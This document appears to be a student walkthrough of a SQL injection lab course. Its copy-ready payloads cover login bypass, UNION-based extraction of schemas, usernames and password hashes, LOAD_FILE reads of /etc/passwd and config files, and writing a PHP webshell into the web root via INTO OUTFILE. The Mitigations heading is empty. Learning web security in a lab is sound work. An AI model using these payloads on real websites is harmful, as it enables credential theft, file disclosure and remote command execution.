 # SQL Injection Fundamentals

## Table of Contents&#x20;

## Databases

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## MySQL&#x20;

### Intro to MySQL

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?**

`mysql -u root -h 83.136.251.235 -P 44245 -p`

* PW: password

`show databases;`

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### SQL Statements

**What is the department number for the 'Development' department?**

`mysql -u root -h 94.237.56.188 -P 32521 -p`

`show databases;`

`use employees;`

`show tables;`

`select * from departments;`

<figure><img src=".gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

### Query Results

**What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?**

* same IP, same DB, lets continue

`select * from employees where first_name like 'Bar%';`

<figure><img src=".gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

### SQL Operators

**In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?**

* same IP, same DB, lets continue

`show columns from titles;`

`select * from titles where emp_no > 10000 or title != 'engineer';`

<figure><img src=".gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

## SQL Injections

<figure><img src=".gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

### Subverting Query logic

**Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?**

UN: `tom'OR'1'='1`

PW: anything...

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Using Comments

**Login as the user with the id 5 to get the flag.**

UN: `or id = 5 ) #`

PW: anything...

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Union Clause

**Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.**

`mysql -u root -h 83.136.251.235 -P 47496 -p`

`show databases;`

`use employees;`

`select * from employees UNION select dept_no, dept_name, 3, 4, 5, 6 from departments;`

<figure><img src=".gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

### Union Injection

* we can detect number of columns
  * using ORDER BY or UNION
    * ' order by 1-- -
    * cn' UNION select 1,2,3-- -
      * cn' UNION select 1,@@version,3,4-- -
        *

            <figure><img src=".gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>



**Use a Union injection to get the result of 'user()'**

* go to given URL
* replicate the last example
* `cn' UNION select 1,user(),3,4-- -`

<figure><img src=".gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### DB Enumeration

**What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?**

`cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`

<figure><img src=".gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

`cn' UNION select 1,database(),2,3-- -`

<figure><img src=".gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

`cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`

<figure><img src=".gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

`cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`

<figure><img src=".gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

`cn' UNION select 1, username, password, 4 from dev.credentials-- -`

<figure><img src=".gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

`cn' UNION select 1, username, password, 4 from`` `**`users`**`-- -`

<figure><img src=".gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

### Reading Files

**We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.**

`cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`

<figure><img src=".gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

`cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -`

<figure><img src=".gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

* inspect soucre code
  * config.php

<figure><img src=".gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

`cn' UNION SELECT 1, LOAD_FILE("/var/www/html/`**`config.php`**`"), 3, 4-- -`

<figure><img src=".gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

### Writing Files&#x20;

**Find the flag by using a webshell.**

* HINT: Its one directoy away from you

`<?php system($_REQUEST[0]); ?>`

`cn' union select "",'', "", "" into outfile '/var/www/html/shell.php'-- -`

URL: [http://83.136.251.235:41930/shell.php?0=id](http://83.136.251.235:41930/shell.php?0=id)

<figure><img src=".gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

`cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -`

<figure><img src=".gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

cn' union select "",'', "", "" into outfile '/var/www/html/shell2.php'-- -

## Mitigations&#x20;

## Closing it Out

### Skills Assessment - SQL Injection Fundamentals
